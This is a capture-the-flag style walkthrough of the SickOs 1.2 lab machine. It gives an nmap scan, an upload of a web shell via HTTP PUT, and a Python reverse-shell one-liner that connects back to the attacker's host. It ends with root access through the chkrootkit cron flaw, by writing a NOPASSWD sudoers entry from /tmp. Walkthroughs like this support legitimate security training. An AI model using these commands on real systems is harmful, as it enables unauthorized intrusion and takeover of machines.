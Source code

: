 ```yaml
---
title: "SickOs 1.2"
layout: post
date: 2017-11-21
image: /assets/images/markdown.jpg
headerImage: false
tag:
- Writeup
- Pentest
category: blog
author: marioibarra
description:  SickOs 1.2 Writeup
---
```


# SickOs 1.2 Writeup



## Recon & Enumeration

An NMAP scan revealed 2 ports open on the target.

<figure class="highlight"><pre><code class="nohighlight" data-lang="bash"><span style="color:red">mario@kali</span>:~/oscp/exam/10.10.10.12$ cat 10.10.10.12.nmap 
# Nmap 7.60 scan initiated Mon Nov  6 01:57:20 2017 as: nmap -sV -O -oN /home/mario/oscp/exam/10.10.10.12/10.10.10.12.nmap 10.10.10.12
Nmap scan report for 10.10.10.12
Host is up (0.00042s latency).
Not shown: 998 filtered ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.9p1 Debian 5ubuntu1.8 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    lighttpd 1.4.28
MAC Address: 00:0C:29:8A:41:77 (VMware)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.10 - 4.8, Linux 3.16 - 4.6, Linux 3.2 - 4.8, Linux 4.4
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Nov  6 01:57:47 2017 -- 1 IP address (1 host up) scanned in 28.00 seconds
</code></pre></figure>

After enumerating the http service **lighttpd**, a **/test/** directory was found.

![image](/assets/images/sickos1.2/test.png)

I checked for the PUT option was enabled on the directory with curl.

![image](/assets/images/sickos1.2/curl.png)




## Exploitation

PUT was in fact enabled, so I put a web shell on the directory that can execute linux commands.

![image](/assets/images/sickos1.2/put-test.png)

![image](/assets/images/sickos1.2/put-test2.png)


By accessing the web shell, I could execute commands directly on the target.

![image](/assets/images/sickos1.2/cmd.png)


Using the same web shell, I sent this python reverse shell to my machine:

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.22",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

I received the reverse shell with netcat.

![image](/assets/images/sickos1.2/www-shell.png)




## Post-Exploitation

I escaped the restricted shell by spawning a tty shell using python:

```python
python -c 'import pty; pty.spawn("/bin/bash")'
```

After running my enumeration scripts and searching for possible privilege escalation vectors, I couldn't find any that stood out.  

I then checked the crontab for any applications that I could search on searchsploit.  Under /etc/cron.daily, chkrootkit was listed.

I checked the version of chkrootkit, 0.49, and found an exploit on searchsploit:

```bash
dpkg -l | grep chkrootkit
```

Under the **/tmp** directory, I created a file called "update" with commands to add the user **www-data** to the sudoers file, and I made it an executable file:
```bash
echo 'chmod 777 /etc/sudoers && echo "www-data ALL=NOPASSWD:ALL" >> /etc/sudoers && chmod 440 /etc/sudoers' > /tmp/update

chmod +x update
```

The exploit would run the command in the **/tmp/update** file whenever the cronjob occurred.

Since the cronjob for chkrootkit was run daily, I forced it to run instead of waiting:
```bash
run-parts --report /etc/cron.daily
```

After the cronjob ran, I had root access by running "**sudo su**" without a password needed.

![image](/assets/images/sickos1.2/root.png)

![image](/assets/images/sickos1.2/flag.png)